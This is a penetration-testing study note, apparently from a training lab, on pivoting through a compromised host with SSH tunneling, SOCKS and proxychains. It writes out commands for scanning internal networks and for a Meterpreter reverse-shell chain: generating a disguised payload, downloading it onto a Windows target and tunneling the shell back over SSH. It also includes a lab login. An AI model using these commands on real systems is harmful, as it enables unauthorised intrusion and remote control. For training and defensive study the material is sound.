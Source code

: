 # Dynamic Port Forwarding with SSH and SOCKS Tunneling
## Port Forwarding in Context
- `Port forwarding` is a technique that allows us to redirect a communication request from one port to another.
- different application layer protocols such as SSH or even SOCKS (non-application layer) can be used to encapsulate the forwarded traffic. 
	- This can be effective in bypassing firewalls and using existing services on your compromised host to pivot to other networks.

## SSH Local Port Forwarding

![[SSH Local Port Forwarding.png]]
- We will use the below command to forward our local port (1234) over SSH to the Ubuntu server.
```shell-session
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```
- The `-L` command tells the SSH client to request the SSH server to forward all the data we send via the port `1234` to `localhost:3306` on the Ubuntu server. By doing this, we should be able to access the MySQL service locally on port 1234.

## Setting up to Pivot
- Now, if you type `ifconfig` on the Ubuntu host, you will find that this server has multiple NICs:
	- One connected to our attack host (`ens192`)
	- One communicating to other hosts within a different network (`ens224`)
	- The loopback interface (`lo`).

![[Setting up to Pivot.png]]
- We can perform `dynamic port forwarding` and `pivot` our network packets via the Ubuntu server by starting a `SOCKS listener` on our `local host` (personal attack host or Pwnbox) and then configure SSH to forward that traffic via SSH to the network (172.16.5.0/23) after connecting to the target host. 
- This is called `SSH tunneling` over `SOCKS proxy`. SOCKS stands for `Socket Secure`, a protocol that helps communicate with servers where you have firewall restrictions in place.
- In the case of SOCKS, the initial traffic is generated by a SOCKS client, which connects to the SOCKS server controlled by the user who wants to access a service on the client-side. Once the connection is established, network traffic can be routed through the SOCKS server on behalf of the connected client.
- One more benefit of using SOCKS proxy for pivoting and forwarding data is that SOCKS proxies can pivot via creating a route to an external server from `NAT networks`.
#### Enabling Dynamic Port Forwarding with SSH

```shell-session
ssh -D 9050 ubuntu@10.129.202.64
```
- The `-D` argument requests the SSH server to enable dynamic port forwarding.
-  Once we have this enabled, we will require a tool that can route any tool's packets over the port `9050`. We can do this using the tool `proxychains`, which is capable of redirecting TCP connections through TOR, SOCKS, and HTTP/HTTPS proxy servers and also allows us to chain multiple proxy servers together.
- To inform proxychains that we must use port 9050, we must modify the proxychains configuration file located at `/etc/proxychains.conf`. We can add `socks4 127.0.0.1 9050` to the last line if it is not already there.
- Now when you start Nmap with proxychains using the below command, it will route all the packets of Nmap to the local port 9050, where our SSH client is listening, which will forward all the packets over SSH to the 172.16.5.0/23 network.
#### Using Nmap with Proxychains

```shell-session
proxychains nmap -v -sn 172.16.5.1-200
proxychains nmap -sn 172.16.5.0/24
```
- This part of packing all your Nmap data using proxychains and forwarding it to a remote server is called `SOCKS tunneling`.
- One more **important note** to remember here is that we can only perform a `full TCP connect scan` over proxychains.
- We also need to make sure we are aware of the fact that `host-alive` checks may not work against Windows targets because the Windows Defender firewall blocks ICMP requests (traditional pings) by default.
#### Enumerating the Windows Target through Proxychains

```shell-session
proxychains nmap -v -Pn -sT 172.16.5.19
```

## Using Metasploit with Proxychains

```shell-session
proxychains msfconsole
```

#### Using xfreerdp with Proxychains

```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```


# Remote/Reverse Port Forwarding with SSH

- As can be seen in the image below, in our previous case, we could pivot into the Windows host via the Ubuntu server.
 
![[Remote or Reverse Port Forwarding with SSH.png]]
- But what happens if we try to gain a reverse shell? 
	- The `outgoing connection` for the Windows host is only limited to the `172.16.5.0/23` network. This is because the Windows host does not have any direct connection with the network the attack host is on. If we start a Metasploit listener on our attack host and try to get a reverse shell, we won't be able to get a direct connection here because the Windows server doesn't know how to route traffic leaving its network (172.16.5.0/23) to reach the 10.129.x.x (the Academy Lab network).

- We have to find a pivot host, which is a common connection point between our attack host and the Windows server.  In our case, our pivot host would be the Ubuntu server since it can connect to both: `our attack host` and `the Windows target`.

- To gain a `Meterpreter shell` on Windows, we will create a Meterpreter HTTPS payload using `msfvenom`, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address (`172.16.5.129`). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

#### Configuring & Starting the multi/handler

```shell-session
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost 0.0.0.0
set lport 8000
run
```

- Once our payload is created and we have our listener configured & running, we can copy the - payload to the Ubuntu server using the `scp` command since we already have the credentials to connect to the Ubuntu server using SSH.
#### Transferring Payload to Pivot Host

```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

- After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.
#### Starting Python3 Webserver on Pivot Host

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

#### Downloading Payload from Windows Target

```powershell-session
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

- Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. 
- We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.
#### Using SSH -R

```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
- After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.
- If all is set up properly, we will receive a Meterpreter shell pivoted via the Ubuntu server.
- Our Meterpreter session should list that our incoming connection is from a local host itself (`127.0.0.1`) since we are receiving the connection over the `local SSH socket`, which created an `outbound` connection to the Ubuntu server. Issuing the `netstat` command can show us that the incoming connection is from the SSH service.

# Meterpreter Tunneling & Port Forwarding
